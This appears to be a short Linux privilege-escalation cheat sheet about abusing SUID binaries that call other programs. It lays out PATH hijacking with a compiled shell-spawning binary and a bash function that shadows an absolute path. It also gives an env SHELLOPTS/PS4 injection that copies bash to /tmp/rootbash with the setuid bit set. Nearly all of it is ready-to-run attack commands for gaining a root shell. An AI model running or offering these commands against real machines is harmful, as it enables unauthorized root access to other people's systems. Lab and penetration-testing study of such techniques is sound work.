 # Example:

### 1: /usr/local/bin/example-env

### 2: strings /usr/local/bin/example-env

### 3: gcc -o service /path/to/file.c (The code spawns bash shell. Works only if the full path of the original executable is NOT being used)

### 4: PATH=.:$PATH /usr/local/bin/example-env

## TIP: 

### If the absolute path of an executable is used (strings) we can do:

#### 1: Check bash version: /bin/bash --version

#### 2: function /path/to/file {/bin/bash -p;}

#### 3: Run executable

### Example:

#### env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/example2-env

#### /tmp/rootbash -p

## Note: Doesn't work on Bash versions 4.4 and above!
